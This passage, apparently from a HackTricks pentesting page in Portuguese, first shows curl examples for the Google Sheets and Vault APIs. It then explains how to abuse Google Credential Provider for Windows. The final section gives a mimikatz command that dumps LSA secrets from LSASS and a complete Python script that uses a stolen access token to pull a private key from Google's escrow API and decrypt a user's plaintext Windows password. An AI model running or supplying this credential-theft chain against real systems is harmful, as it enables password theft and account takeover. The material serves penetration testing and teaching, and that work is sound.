"https://www.googleapis.com/drive/v3/files/106VJxeyIsVTkixutwJM1IiJZ0ZQRMiA5mhfe8C5CxMc/export?mimeType=application/pdf" \
-o "Spreadsheet.pdf"

# Create spreadsheet
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"properties": {
"title": "New Spreadsheet"
}
}' \
"https://sheets.googleapis.com/v4/spreadsheets"

# Read data from a spreadsheet
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://sheets.googleapis.com/v4/spreadsheets/<SPREADSHEET_ID>/values/Sheet1!A1:C10"

# Update data in spreadsheet
curl -X PUT \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"range": "Sheet1!A2:C2",
"majorDimension": "ROWS",
"values": [
["Alice Johnson", "28", "alice.johnson@example.com"]
]
}' \
"https://sheets.googleapis.com/v4/spreadsheets/<SPREADSHEET_ID>/values/Sheet1!A2:C2?valueInputOption=USER_ENTERED"

# Append data
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"values": [
["Bob Williams", "35", "bob.williams@example.com"]
]
}' \
"https://sheets.googleapis.com/v4/spreadsheets/SPREADSHEET_ID/values/Sheet1!A:C:append?valueInputOption=USER_ENTERED"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/ediscovery (Google Vault)</summary>

**Google Workspace Vault** é um complemento para o Google Workspace que fornece ferramentas para retenção de dados, pesquisa e exportação dos dados da sua organização armazenados nos serviços do Google Workspace, como Gmail, Drive, Chat e mais.

- Um **Caso** no Google Workspace Vault é um **container** que organiza e agrupa todas as informações relacionadas a um caso específico, investigação ou questão legal. Ele serve como o hub central para gerenciar **Suspensões**, **Pesquisas** e **Exportações** relacionadas a essa questão particular.
- Uma **Suspensão** no Google Workspace Vault é uma **ação de preservação** aplicada a usuários ou grupos específicos para **prevenir a exclusão ou alteração** de seus dados dentro dos serviços do Google Workspace. As suspensões garantem que as informações relevantes permaneçam intactas e não modificadas durante a duração de um caso legal ou investigação.
```bash
# List matters
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters?pageSize=10"

# Create matter
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"name": "Legal Case 2024",
"description": "Matter for the upcoming legal case involving XYZ Corp.",
"state": "OPEN"
}' \
"https://vault.googleapis.com/v1/matters"

# Get specific matter
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters/<MATTER_ID>"

# List holds in a matter
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters/<MATTER_ID>/holds?pageSize=10"
```
Mais [endpoints de API na documentação](https://developers.google.com/vault/reference/rest).

</details>

## GCPW - Recuperando a senha em texto claro

Para abusar do GCPW para recuperar o texto claro da senha, é possível despejar a senha criptografada do **LSASS** usando **mimikatz**:
```bash
mimikatz_trunk\x64\mimikatz.exe privilege::debug token::elevate lsadump::secrets exit
```
Então, procure pelo segredo como `Chrome-GCPW-<sid>` como na imagem:

<figure><img src="../../../images/telegram-cloud-photo-size-4-6044191430395675441-x.jpg" alt=""><figcaption></figcaption></figure>

Então, com um **token de acesso** com o escopo `https://www.google.com/accounts/OAuthLogin`, é possível solicitar a chave privada para descriptografar a senha:

<details>

<summary>Script para obter a senha em texto claro dado o token de acesso, senha criptografada e id do recurso</summary>
```python
import requests
from base64 import b64decode
from Crypto.Cipher import AES, PKCS1_OAEP
from Crypto.PublicKey import RSA

def get_decryption_key(access_token, resource_id):
try:
# Request to get the private key
response = requests.get(
f"https://devicepasswordescrowforwindows-pa.googleapis.com/v1/getprivatekey/{resource_id}",
headers={
"Authorization": f"Bearer {access_token}"
}
)

# Check if the response is successful
if response.status_code == 200:
private_key = response.json()["base64PrivateKey"]
# Properly format the RSA private key
private_key = f"-----BEGIN RSA PRIVATE KEY-----\n{private_key.strip()}\n-----END RSA PRIVATE KEY-----"
return private_key
else:
raise ValueError(f"Failed to retrieve private key: {response.text}")

except requests.RequestException as e:
print(f"Error occurred while requesting the private key: {e}")
return None

def decrypt_password(access_token, lsa_secret):
try:
# Obtain the private key using the resource_id
resource_id = lsa_secret["resource_id"]
encrypted_data = b64decode(lsa_secret["encrypted_password"])

private_key_pem = get_decryption_key(access_token, resource_id)
print("Found private key:")
print(private_key_pem)

if private_key_pem is None:
raise ValueError("Unable to retrieve the private key.")

# Load the RSA private key
rsa_key = RSA.import_key(private_key_pem)
key_size = int(rsa_key.size_in_bits() / 8)

# Decrypt the encrypted data
cipher_rsa = PKCS1_OAEP.new(rsa_key)
session_key = cipher_rsa.decrypt(encrypted_data[:key_size])

# Extract the session key and other data from decrypted payload
session_header = session_key[:32]
session_nonce = session_key[32:]
mac = encrypted_data[-16:]

# Decrypt the AES GCM data
aes_cipher = AES.new(session_header, AES.MODE_GCM, nonce=session_nonce)
decrypted_password = aes_cipher.decrypt_and_verify(encrypted_data[key_size:-16], mac)

print("Decrypted Password:", decrypted_password.decode("utf-8"))

except Exception as e:
print(f"Error occurred during decryption: {e}")

# CHANGE THIS INPUT DATA!
access_token = "<acces_token>"
lsa_secret = {
"encrypted_password": "<encrypted-password>",
"resource_id": "<resource-id>"
}

decrypt_password(access_token, lsa_secret)
```
</details>

É possível encontrar os componentes principais disso no código-fonte do Chromium:

- domínio da API: [https://github.com/search?q=repo%3Achromium%2Fchromium%20%22devicepasswordescrowforwindows-pa%22\&type=code](https://github.com/search?q=repo%3Achromium%2Fchromium%20%22devicepasswordescrowforwindows-pa%22&type=code)
- endpoint da API: [https://github.com/chromium/chromium/blob/21ab65accce03fd01050a096f536ca14c6040454/chrome/credential_provider/gaiacp/password_recovery_manager.cc#L70](https://github.com/chromium/chromium/blob/21ab65accce03fd01050a096f536ca14c6040454/chrome/credential_provider/gaiacp/password_recovery_manager.cc#L70)

## Referências

- [https://www.youtube.com/watch?v=FEQxHRRP_5I](https://www.youtube.com/watch?v=FEQxHRRP_5I)
- [https://issues.chromium.org/issues/40063291](https://issues.chromium.org/issues/40063291)

{{#include ../../../banners/hacktricks-training.md}}
